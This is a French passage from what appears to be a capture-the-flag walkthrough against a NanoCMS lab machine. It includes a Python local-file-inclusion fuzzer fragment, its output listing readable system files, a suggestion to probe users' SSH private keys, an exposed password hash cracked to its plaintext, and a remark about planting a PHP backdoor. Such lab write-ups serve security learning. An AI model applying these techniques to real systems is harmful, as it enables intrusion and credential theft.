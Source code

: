 ```python
    if not "failed to open stream" in r.content:
        print "Contenu trouve avec", word
fd.close()
```

Evidemment à vous de remplir préalablement le fichier *logs.txt* avec des paths de fichiers intéressants (les *.ssh/id\_rsa* des utilisateurs par exemple).  

J'obtiens l'output suivant :  

```plain
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/log/wtmp
Contenu trouve avec /var/run/utmp
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/motd
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/redhat-release
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /etc/httpd/conf/httpd.conf
Contenu trouve avec /etc/my.cnf
Contenu trouve avec /etc/php.ini
Contenu trouve avec /var/mail/apache
Contenu trouve avec /var/log/dmesg
Contenu trouve avec /home/patrick/.bashrc
Contenu trouve avec /home/jennifer/.bashrc
Contenu trouve avec /home/andy/.bashrc
Contenu trouve avec /home/amy/.bashrc
Contenu trouve avec /home/loren/.bashrc
```

Pas grand chose d'intéressant : on parvient à accéder aux *.bashrc* mais pas aux clés SSH. Les logs *Apache* sont eux aussi inaccessibles.  

Après avoir testé différentes urls du type */~nom\_utilisateur*, il semble que seul andy exploite le module *user\_dir* d'*Apache* dont rien de plus à fouiller ici.  

Une recherche rapide sur Internet et je trouve une vulnérabilité concernant *NanoCMS* : ce système de blog sans base de données stocke les hashs des utilisateurs [dans un fichier texte accessible à tous](http://www.securityfocus.com/bid/34508).  

Ainsi à l'adresse */~andy/data/pagesdata.txt* j'obtiens (il s'agit d'un extrait) :  

```plain
s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";
```

Une autre recherche rapide permet de retrouver ce hash sur le web qui correspond au mot de passe *shannon*.  

Une fois connecté en admin il est très aisé de créer une nouvelle page php pour y placer par exemple une backdoor.  
